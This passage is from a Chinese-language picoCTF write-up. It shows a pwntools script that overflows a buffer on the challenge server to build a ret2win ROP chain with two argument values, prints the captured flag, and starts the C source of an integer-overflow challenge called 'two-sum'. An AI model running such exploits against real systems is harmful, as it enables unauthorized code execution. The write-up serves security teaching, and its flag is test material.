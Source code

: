 ```c

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

這次和前面那題差不多，也是個 ret2win，但是它多了一個檢查條件，要判斷 arg1 和 arg2 的值是否為 0xCAFEF00D 和 0xF00DF00D，所以在構造 ROP Chain 的時候要記得把這兩個的值串接上去。接下來就開始編寫 Exploit 吧。

```python
from pwn import *

r = remote("saturn.picoctf.net", 56229)

payload = b""
offset = 112
win_addr = 0x08049296
arg1 = 0xCAFEF00D
arg2 = 0xF00DF00D

# p32(win_addr) is the return address for vuln() function
# p32(0) is the return address for win() function to make the program execute normally
payload += b"A" * offset + p32(win_addr) + p32(0) + p32(arg1) + p32(arg2)
r.sendline(payload)
r.interactive()
```

至於為甚麼中間要多加一個 p32(0)，我直接寫在註解中了。

```txt
picoCTF{argum3nt5_4_d4yZ_3c04eab0}
```

# two-sum

先看題目的代碼。

```c
#include <stdio.h>
#include <stdlib.h>

static int addIntOvf(int result, int a, int b) {
    result = a + b;
    if(a > 0 && b > 0 && result < 0)
        return -1;
    if(a < 0 && b < 0 && result > 0)
        return -1;
    return 0;
}

int main() {
    int num1, num2, sum;
    FILE *flag;
    char c;

    printf("n1 > n1 + n2 OR n2 > n1 + n2 \n");
    fflush(stdout);
    printf("What two positive numbers can make this possible: \n");
    fflush(stdout);

    if (scanf("%d", &num1) && scanf("%d", &num2)) {
```